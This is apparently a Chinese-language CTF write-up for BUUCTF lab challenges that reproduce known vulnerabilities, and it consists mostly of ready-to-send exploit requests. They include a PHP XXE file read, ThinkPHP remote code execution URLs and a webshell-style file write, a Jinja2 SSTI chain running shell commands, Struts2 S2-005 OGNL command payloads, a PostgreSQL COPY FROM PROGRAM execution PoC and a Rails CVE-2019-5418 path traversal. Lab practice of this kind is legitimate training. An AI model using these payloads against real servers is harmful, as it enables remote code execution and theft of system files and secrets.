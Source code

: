 # BUUCTF-Real

- [PHP-XXE](#PHP-XXE)
- [ThinkPHP-5-Rce](#ThinkPHP-5-Rce)
- [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
- [ThinkPHP-2-Rce](#ThinkPHP-2-Rce)
- [Flask-SSTI](#Flask-SSTI)
- [s2-005](#s2-005)
- [Postgres-CVE-2019-9193](#Postgres-CVE-2019-9193)
- [CVE-2019-5418](#CVE-2019-5418)


## PHP-XXE

https://github.com/vulhub/vulhub/tree/master/php/php_xxe

![image](./img/php-xxe.png)


```
POST /dom.php HTTP/1.1
Host: node4.buuoj.cn:28445
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在当前phpinfo页面搜索flag即可
## ThinkPHP-5-Rce

http://node4.buuoj.cn:29286/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

flag{8f351e17-388e-4076-93b5-30fce230b2b7}

## ThinkPHP-5.0.23-Rce

```
POST /index.php?s=captcha HTTP/1.1
Host: node4.buuoj.cn:26600
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > test.php
```

http://node4.buuoj.cn:26600/test.php

搜索flag即可

## ThinkPHP-2-Rce

```
http://node4.buuoj.cn:27704/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

## Flask-SSTI


http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

## s2-005

输出id命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27id%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

输出env命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27env%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

## CVE-2017-12149

jboss反序列化_CVE-2017-12149.jar

## CVE-2017-7504


## JMXInvokerServlet-deserialization

jboss反序列化_CVE-2017-12149.jar

## Postgres-CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2
poc
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'env';
SELECT * FROM cmd_exec;
```

打印环境变量

flag{ba05334a-790f-4092-b65b-85ba70e84722}

## CVE-2019-5418

```
GET /robots HTTP/1.1
Host: node4.buuoj.cn:27855
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: ../../../../../../../../proc/1/environ{{
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b865c3e394c2-036255e722aa89-c343365-1fa400-17b865c3e3a43b; _blog_session=yk3j3zdsE38sGRr1qChqiP2c%2FsLP6%2FtP1%2FbNQ%2B2h8cFWVt0DIfVVFPKOcetA7wbAOkrZjWGwL4%2F00d6NYn7RSdUbgKrh4yhR%2FA3Zh13GPpdT8PA5nipbtFr%2Bv4Cp2YUu1HBuaMrvxiV1x8bIsQg%3D--wfXpXJkuxo69%2B2rQ--BYQP7mw53G7Eg%2F4MyvECHg%3D%3D
Connection: close
```